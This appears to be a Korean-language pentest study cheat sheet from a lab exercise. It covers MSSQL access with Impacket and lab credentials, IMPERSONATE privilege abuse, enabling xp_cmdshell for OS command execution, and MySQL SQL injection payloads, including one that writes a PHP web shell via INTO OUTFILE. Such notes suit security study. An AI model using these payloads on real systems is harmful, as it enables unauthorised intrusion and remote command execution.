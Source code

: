 # 🗂 MSSQL Client Connection

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ **Impacket**의 `mssqlclient.py`를 사용하여 MSSQL 서버에 접속.  
→ `-windows-auth` 옵션은 **Windows 인증**을 사용하여 로그인.

```sql
SELECT @@version;
```
→ MSSQL 서버 버전 확인

```sql
enum_db
```
→ enumeration DB

```sql
SELECT * FROM offsec.information_schema.tables;
```
→ 데이터베이스 `offsec`의 모든 테이블 목록 확인

```sql
SELECT * FROM offsec.dbo.users;
```
→ 데이터베이스 `offsec`의 `users` 테이블 내용 조회

---
# SQL Server - IMPERSONATE 권한 확인
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';

EXECUTE AS LOGIN = 'hrappdb-reader'
```
1. **`sys.server_permissions`**
   - SQL Server의 서버 수준 권한 정보를 담고 있는 시스템 뷰입니다.
   - `permission_name` 컬럼에 어떤 권한이 부여됐는지 표시됩니다.

2. **`sys.server_principals`**
   - 서버 수준에서 정의된 보안 주체(Principal) 정보를 담고 있는 뷰입니다.
   - 로그인 계정, Windows 로그인, SQL 로그인, 서버 역할 등이 포함됩니다.

3. **JOIN 조건**
   ```sql
   ON a.grantor_principal_id = b.principal_id
   ```
   - 권한을 부여한 **Grantor(부여자)** 의 ID를 보안 주체와 매칭합니다.
   - 즉, 누가 이 권한을 부여했는지를 확인할 수 있습니다.

4. **WHERE 조건**
   ```sql
   WHERE a.permission_name = 'IMPERSONATE'
   ```
   - `IMPERSONATE` 권한만 필터링합니다.
   - 이는 다른 계정으로 가장할 수 있는 권한을 의미합니다.
---
# 💻 MSSQL Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ 서버 접속 후, **xp_cmdshell** 기능을 활성화하여 시스템 명령어 실행

```sql
-- 1️⃣ 고급 옵션 보기 허용
EXECUTE sp_configure 'show advanced options', 1;
```
> MSSQL의 `sp_configure`는 서버 설정 값을 변경하는 명령입니다.  
> `'show advanced options'` 값을 1로 설정하면, 기본적으로 숨겨져 있는 고급 설정 옵션(예: xp_cmdshell)을 볼 수 있게 됩니다.

```sql
-- 2️⃣ 설정 적용
RECONFIGURE;
```
> 변경한 설정을 즉시 적용합니다.  
> `sp_configure`로 값을 바꾸더라도 `RECONFIGURE`를 실행하지 않으면 실제 적용되지 않습니다.

```sql
-- 3️⃣ xp_cmdshell 기능 활성화
EXECUTE sp_configure 'xp_cmdshell', 1;
```
> `xp_cmdshell`은 SQL 쿼리에서 직접 OS 명령어를 실행하게 해주는 확장 저장 프로시저입니다.  
> 기본적으로 보안상 이유로 비활성화(0) 되어 있습니다.  
> 여기서 1로 설정하여 기능을 켭니다.

```sql
-- 4️⃣ 설정 적용
RECONFIGURE;
```
> 마찬가지로 변경한 `xp_cmdshell` 설정을 즉시 적용합니다.

```sql
-- 5️⃣ OS 명령어 실행
EXECUTE xp_cmdshell 'whoami';
```
> `xp_cmdshell`을 사용해 OS 명령어(`whoami`)를 실행합니다.  
> 결과로 현재 SQL 서버 프로세스가 실행 중인 **Windows 계정**이 출력됩니다.

---


# 🐬 MySQL Code Execution
```sql
' UNION SELECT sleep(5);-- -
```
→ URL ENCODED로 실행해보기

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
→ SQL 인젝션을 통해 PHP 웹셸 생성  
→ `INTO OUTFILE`을 사용하여 지정 경로(`/var/www/html/tmp/webshell.php`)에 파일 작성  
→ 생성된 파일에 접근 후, `cmd` 파라미터를 통해 명령어 실행 가능  
→ 예: `http://target/tmp/webshell.php?cmd=id`

---
